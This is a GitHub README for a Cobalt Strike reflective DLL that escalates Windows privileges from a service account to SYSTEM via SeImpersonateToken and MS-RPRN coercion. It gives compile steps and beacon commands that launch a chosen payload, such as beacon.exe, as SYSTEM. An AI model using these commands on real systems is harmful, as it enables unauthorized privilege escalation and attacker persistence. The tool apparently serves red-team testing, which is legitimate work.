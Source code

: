 # Coerced Potato Reflective DLL

Privilege escalation from NT Service to SYSTEM using SeImpersonateToken privilege and MS-RPRN functions.

Heavily based on https://github.com/Prepouce/CoercedPotato

Reflective Loader from https://github.com/stephenfewer/ReflectiveDLLInjection.


Create Reflective DLL for Cobalt Strike on https://sokarepo.github.io/redteam/2023/10/11/create-reflective-dll-for-cobaltstrike.html

## Install

Clone this repo and compile the project in VisualStudio then load `dist/coercedpotato.cna` into CobaltStrike.

## Usage

You first need to spawn the RPC listener with
```
beacon> CoercedPotato spawn ProcessToSpawn OptionalCmdArgument
```

for example
```
beacon> CoercedPotato spawn C:\Windows\Temp\beacon.exe
beacon> CoercedPotato spawn C:\Windows\Temp\loader.exe C:\Windows\Temp\beacon.bin
```

then you can trigger a SYSTEM call
```
beacon> CoercedPotato coerce
```

<p align="center">
  <img src="images/poc.png">
</p>
